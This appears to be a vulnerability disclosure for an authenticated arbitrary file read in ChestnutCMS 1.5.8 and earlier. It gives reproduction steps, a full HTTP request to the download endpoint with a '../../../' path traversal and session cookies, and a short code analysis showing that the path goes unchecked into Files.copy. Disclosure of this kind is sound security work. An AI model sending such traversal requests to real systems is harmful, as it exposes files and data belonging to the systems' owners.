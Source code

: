 ## Vulnerability version:
ChestnutCMS <= 1.5.8

## Product supplier:
https://gitee.com/liweiyi/ChestnutCMS

## Vulnerability type:
Arbitrary File Read

## Vulnerability description:
ChestnutCMS is an enterprise-level content management system with front and back end separation.Before version 1.5.8, the system supported read any file after login. 

1.create a test.txt in the upload directory,content is "aaaa"
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231105579.png)

2.create a test.txt in D:\ ,content is "abc"
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231104395.png)

3.it is normally to read the test.txt in the upload directory
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231102703.png)

4.then we can read the test.txt in D:\
```
GET /dev-api/common/download?path=../../../test.txt HTTP/1.1
Host: 192.168.233.31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Authorization=fa2792a3-abf9-41fa-a228-979308b2dce1; Admin-Token=fa2792a3-abf9-41fa-a228-979308b2dce1
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```


![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231103903.png)

## Code analysis

the base_url
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231123483.png)

![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231113956.png)

it do not check any and go to the Files.copy function
![](https://cdn.jsdelivr.net/gh/Huu1j/Huuj_img@main/img/202510231323389.png)